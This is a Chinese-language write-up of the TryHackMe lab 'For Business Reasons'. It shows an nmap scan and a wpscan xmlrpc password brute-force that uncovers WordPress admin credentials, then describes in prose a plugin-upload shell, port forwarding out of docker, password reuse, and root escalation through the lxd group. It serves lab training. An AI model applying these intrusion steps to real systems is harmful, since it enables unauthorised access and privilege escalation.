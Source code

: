 ```yaml
---
sidebar_position: 185
tags: [Easy, Linux, 端口转发, 用户组]
title: "For Business Reasons"
description: "For Business Reasons"
sidebar_label: "For Business Reasons"
slug: /tryhackme/185
---
```


# For Business Reasons

## 端口扫描

```bash
root@ip-10-10-10-19:~# nmap -sTCV -p- --min-rate 1000 10.10.21.37

Starting Nmap 7.60 ( https://nmap.org ) at 2023-11-19 09:10 GMT
Nmap scan report for ip-10-10-21-37.eu-west-1.compute.internal (10.10.21.37)
Host is up (0.00028s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE VERSION
22/tcp   closed ssh
80/tcp   open   http    Apache httpd 2.4.38 ((Debian))
|_http-generator: WordPress 5.4.2
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: MilkCo Test/POC site &#8211; Just another WordPress site
2377/tcp closed swarm
7946/tcp closed unknown
MAC Address: 02:53:07:A6:C9:27 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.77 seconds
```

## 80

在访问之后我发现这个站点是在进行 Wordpress , 因此我直接开始使用 wpscan 进行扫描, 当然先进行的暴力破解, 结果发现确实存在弱密码

```bash
root@ip-10-10-10-19:~/forbusinessreasons#  wpscan --password-attack xmlrpc -t 20 -U sysadmin  -P `locate rockyou.txt`  --url http://10.10.21.37/
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - sysadmin / milkshake                                                                                                                                         
Trying sysadmin / kenzie Time: 00:04:20 <                                                                                       > (1680 / 14346071)  0.01%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: sysadmin, Password: milkshake
```

访问后台界面, 开始上传Shell 但是不允许编辑页面, 因此只能通过上传插件来获取一个 Shell

## 后渗透

### www-data (172.18.0.3)

![image-20240709231204071](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-231205.png)

获取到 Shell  之后, 开始一系列的枚举, 我确定目前是在一个 docker 环境中, 但是没有发现什么可以利用的地方, 那就端口转发尝试密码重用, 因为题目的描述中也一直在说, 目标的站点存在密码重用的问题, 同时也值得一说这 docker 环境是真TM安全

### www-data (172.18.0.3) —> sysadmin(172.18.0.1)

上传自己喜欢的端口转发工具, 之后开始进行端口转发

![image-20240709231213972](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-231215.png)

### sysadmin(172.18.0.1) —> root(172.18.0.1)

可以发现 sysadmin 用户是 lxd 组内的用户, 因此可以利用此来完成提权

![image-20240709231223181](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-231224.png)
